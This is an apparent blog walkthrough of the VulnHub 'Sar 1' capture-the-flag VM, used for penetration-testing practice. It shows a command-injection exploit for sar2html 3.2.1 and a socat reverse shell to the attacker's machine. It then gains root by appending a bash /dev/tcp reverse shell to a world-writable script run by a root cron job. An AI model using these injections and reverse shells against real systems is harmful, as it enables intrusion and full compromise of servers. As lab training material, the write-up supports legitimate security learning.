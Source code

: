 ```yaml
---
layout: post
title: VulnHub - Sar 1
---
```


**Description:** Is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.

**Author:** Love

**Operating System:** Linux

**Aim:** To get root shell.

**Download:** [https://www.vulnhub.com/entry/sar-1,425/](https://www.vulnhub.com/entry/sar-1,425/)

## Information Gathering
### Host Discovery
We start discovering the taget machine on the local network.

```bash
root@kali:~$ arp-scan -I vmnet1 192.168.179.1/24
Interface: vmnet1, type: EN10MB, MAC: 00:50:56:c0:00:01, IPv4: 192.168.179.1
WARNING: host part of 192.168.179.1/24 is non-zero
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.179.142 00:0c:29:88:c6:9e       VMware, Inc.
192.168.179.254 00:50:56:ea:a9:69       VMware, Inc.

2 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 3.242 seconds (78.96 hosts/sec). 2 responded
```

### Port Scanning
Identified our target, I proceed to perform a UDP and TCP port scan with unicornscan.

```bash
root@kali:~$ us -mT -Iv -p1-65535 192.168.179.142 && us -mU -Iv -p1-65535 192.168.179.142
...
TCP open                    http[   80]         from 192.168.179.142  ttl 64
...
UDP open                 unknown[48088]         from 192.168.179.142  ttl 64
...
```

### Service Enumeration
After I do the service enumeration on port 80.

```bash
root@kali:~$ nmap -n -sV -sC -p80 192.168.179.142 -oN service-enum.txt
...
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:88:C6:9E (VMware)
```

### Web Enumeration
I access to the web page and find the apache default page, then I look for the robots.txt file and find the **sar2HTML** name.

![](/assets/images/sar/screenshot-1.png)

![](/assets/images/sar/screenshot-2.png)

I request this resource and redirects me to your home page.

Sar2html is web based frontend for performance monitoring. It converts sar binary data to graphical format and keep historical data in it's database. 

![](/assets/images/sar/screenshot-3.png)

Then I look vulnerabilities for sar2html version 3.2.1, and found that it's vulnerable to Remote Command Execution.

```bash
root@kali:~$ searchsploit sar2html 3.2.1
------------------------------------------------------------ ------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution               | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution                   | php/webapps/47204.txt
------------------------------------------------------------ ------------------------
```

I transfer a copy of this exploit to my current directory and we see the proof of concept.

```bash
root@kali:~$ searchsploit -m php/webapps/47204.txt
root@kali:~$ cat 47204.txt 
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```

## Exploitation
### Remote Code Execution
I check the POC with curl and I can see that the **id** command is running, so it's vulnerable.

```bash
root@kali:~$ curl -s "http://192.168.179.142/sar2HTML/index.php?plot=;id" | tr '>' '\n' | grep '</option' | tail -n +3 | head -n -2 | sed 's/<\/option//'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Getting a reverse shell**

I first set up a netcat listener on port 443, and then run the following socat instruction in the browser.

```bash
http://192.168.179.142/sar2HTML/index.php?plot=;socat TCP4:192.168.179.1:443 EXEC:/bin/bash
```

![](/assets/images/sar/screenshot-4.png)

As we can see, we have a reverse shell with limited privileges.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.142] 36268
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@sar:/var/www/html/sar2HTML$ uname -a
uname -a
Linux sar 5.0.0-23-generic #24~18.04.1-Ubuntu SMP Mon Jul 29 16:12:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

**Cron Jobs Enumeration**

Enumerating the cron jobs in the crontab file, I find a cron job that runs the script **finally.sh** every five minutes in the /var/www/html/ directory.

```bash
www-data@sar:/$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

## Privilege Escalation
### Cron Job
We list the contents of the directory **/var/www/html/** and we see the **finally.sh** script.

```bash
www-data@sar:/var/www/html$ ls -la
ls -la
total 40
drwxr-xr-x 3 www-data www-data  4096 Oct 21  2019 .
drwxr-xr-x 4 www-data www-data  4096 Oct 21  2019 ..
-rwxr-xr-x 1 root     root        22 Oct 20  2019 finally.sh
-rw-r--r-- 1 www-data www-data 10918 Oct 20  2019 index.html
-rw-r--r-- 1 www-data www-data    21 Oct 20  2019 phpinfo.php
-rw-r--r-- 1 root     root         9 Oct 21  2019 robots.txt
drwxr-xr-x 4 www-data www-data  4096 Oct 20  2019 sar2HTML
-rwxrwxrwx 1 www-data www-data    30 Oct 21  2019 write.sh
```

We see the content of the **finally.sh** script, this is executing the **write.sh** script and this is creating the gateway file in the /temp directory.

```bash
www-data@sar:/var/www/html$ cat finally.sh
cat finally.sh
#!/bin/sh

./write.sh
www-data@sar:/var/www/html$ cat write.sh
cat write.sh
#!/bin/sh

touch /tmp/gateway
```

As we have write permissions in the **write.sh** script, let's write a bash reverse shell to that file.

```bash
www-data@sar:/var/www/html$ echo "/bin/bash -c 'bash -i >& /dev/tcp/192.168.179.1/4545 0>&1'" >> write.sh 
```
Then set up a netcat listener on port 4545 and after five minutes we get a root shell.

```bash
root@kali:~$ nc -vlnp 4545
listening on [any] 4545 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.142] 45282
bash: cannot set terminal process group (3018): Inappropriate ioctl for device
bash: no job control in this shell
root@sar:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
```
